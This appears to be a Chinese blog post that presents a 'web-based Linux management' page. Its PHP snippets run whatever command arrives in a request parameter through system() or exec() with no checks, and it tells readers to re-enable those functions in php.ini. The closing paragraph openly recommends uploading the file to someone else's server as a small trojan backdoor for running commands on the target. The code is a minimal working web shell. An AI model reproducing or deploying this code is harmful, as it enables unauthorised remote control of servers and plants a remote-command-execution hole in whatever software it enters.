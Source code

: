 
--- 
title:  网页Linux管理系统——通过网址提交Linux命令，获取执行结果 
tags: []
categories: [] 

---
## **目录**





 











 

·<img src="https://img-blog.csdnimg.cn/9b976f702133483abebd6ced96fffe96.gif" alt="9b976f702133483abebd6ced96fffe96.gif">

 

 

#### 网页提交Linux命令

在做Linux服务器管理的时候，我们都需要登录到服务器上，来执行命令，获取服务器的相关进程、状态、磁盘空间使用情况等等。

那么我们 可不可以，直接在网页端，通过访问Linux服务器的某个网页管理界面。在浏览器中输入Linux命令，直接在网页上获取命令执行结果呢？

#### 先上效果

直接通过http链接，传入命令参数，执行并返回结果。

<img src="https://img-blog.csdnimg.cn/20210419151611411.gif" alt="20210419151611411.gif">

####  

#### 环境要求

php执行shell命令，可以使用下面几个函数： 

```
string system ( string $command [, int &amp;$return_var ] )

string exec ( string $command [, array &amp;$output [, int &amp;$return_var ]] )

void passthru ( string $command [, int &amp;$return_var ] )
```

#### 　注意：

这三个函数在默认的情况下，都是被禁止了的

如果要使用这几个函数，

就要先修改php的配置文件php.ini

查找关键字disable_functions，将这一项中的这几个函数名删除掉

然后注意重启apache。

 

#### 　　首先看一下system()和passthru()两个功能类似，可以互换：

```
&lt;?php
    #获取网页传递参数
    $shell = $_REQUEST['shell'];
    echo "&lt;pre&gt;";
    system($shell, $status);
    echo "&lt;/pre&gt;";
    //注意shell命令的执行结果和执行返回的状态值的对应关系
    $shell = "&lt;font color='red'&gt;$shell&lt;/font&gt;";
    if( $status ){
        echo "shell命令{$shell}执行失败";
    } else {
        echo "shell命令{$shell}成功执行";
    }
?&gt;
```

 

访问地址，并传递shell参数



<img src="https://img-blog.csdnimg.cn/20200903092202440.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjM1MDIxMg==,size_16,color_FFFFFF,t_70" alt="watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjM1MDIxMg==,size_16,color_FFFFFF,t_70">

　　注意，system()会将shell命令执行之后，立马显示结果，这一点会比较不方便，因为我们有时候不需要结果立马输出，甚至不需要输出，于是可以用到exec()

#### 　　<img src="https://img-blog.csdnimg.cn/11a0deb2dafd481a8a7f2b974c0efa3a.png" alt="11a0deb2dafd481a8a7f2b974c0efa3a.png">

 

 

#### 　　exec(）的使用示例： 

```
&lt;?php
    $shell = $_REQUEST['shell'];
    exec($shell, $result, $status);
    $shell = "&lt;font color='red'&gt;$shell&lt;/font&gt;";
    echo "&lt;pre&gt;";
    if( $status ){
        echo "shell命令{$shell}执行失败";
    } else {
        echo "shell命令{$shell}成功执行, 结果如下&lt;hr&gt;";
        print_r( $result );
    }
    echo "&lt;/pre&gt;";
?&gt;
```

exec()执行shell命令成功，但是并不返回结果，需要使用输出命令，输出$result结果

 

<img src="https://img-blog.csdnimg.cn/20200903093847827.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjM1MDIxMg==,size_16,color_FFFFFF,t_70" alt="watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MjM1MDIxMg==,size_16,color_FFFFFF,t_70">

作为木马小后门，上传到对方服务器下的网站目录下，访问该地址，就可以在靶机上执行你想执行的命令，并且拿到回显结果。

<img src="https://img-blog.csdnimg.cn/4b6e634b74814893b61cf43eb996d755.png" alt="4b6e634b74814893b61cf43eb996d755.png">

 

 

 
